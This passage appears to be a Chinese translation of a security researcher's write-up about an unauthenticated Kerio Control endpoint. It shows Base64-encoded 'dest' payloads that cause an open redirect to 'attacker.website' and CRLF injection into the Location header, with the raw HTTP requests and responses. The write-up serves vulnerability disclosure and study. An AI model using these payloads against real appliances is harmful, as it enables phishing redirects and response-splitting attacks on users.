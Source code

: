   
你已经发现发生了什么吗？响应中的字符串“ µë- ”和“ Location ”HTTP 响应标头的值表明“ dest ”GET 参数可能是以 Base64 编码的 URL。因此，让我们尝试以 Base64 编码一个随机 URL，并使用这样的值重新提交上述 HTTP 请求。  
  
以“ http://attacker.website ”为有效负载的请求（以 Base64 编码）：  
  
```
GET /nonauth/guestConfirm.cs?dest=aHR0cDovL2F0dGFja2VyLndlYnNpdGU= HTTP/1.1
Host: 192.168.123.64:4081
Connection: close
```  
  
  
回复：  
  
```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: Close
Content-Type: text/html
Date: Thu, 5 Dec 2024 11:03:38 GMT
Expires: Wed, 4 Jun 1980 06:02:09 GMT
Location: http://attacker.website
Pragma: no-cache
Server: Kerio Control Embedded Web Server
Strict-Transport-Security: max-age=63072000, includeSubDomains, preload
X-UA-Compatible: IE=edge

If your browser does not redirect automatically, please click this link: <a href="http://attacker.website">http://attacker.website</a>
```  
  
  
成功了！所以，首先显而易见的是：我们可以执行开放重定向攻击……在我看来，这不是什么酷事，特别是考虑到这可能是一个设计功能，是“有意为之”的东西，不被视为真正的安全漏洞，所以让我们继续测试吧！如果我们尝试在有效载荷中插入 CRLF 序列 (\r\n)，我们会注意到它们实际上并没有从 HTTP 响应中删除！  
  
请求内容为“ Test\r\nTest ”，以 Base64 编码：  
  
```
GET /nonauth/guestConfirm.cs?dest=VGVzdA0KVGVzdA== HTTP/1.1
Host: 192.168.123.64:4081
Connection: close
```  
  
  
回复：  
  
```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: Close
Content-Type: text/html
Date: Thu, 5 Dec 2024 11:16:19 GMT
Expires: Wed, 4 Jun 1980 06:02:09 GMT
Location: Test
Test
Pragma: no-cache
Server: Kerio Control Embedded Web Server
Strict-Transport-Security: max-age=63072000, includeSubDomains, preload
X-UA-Compatible: IE=edge

If your browser does not redirect automatically, please click this link: <a href="TestTest">Test
Test</a>
```  
  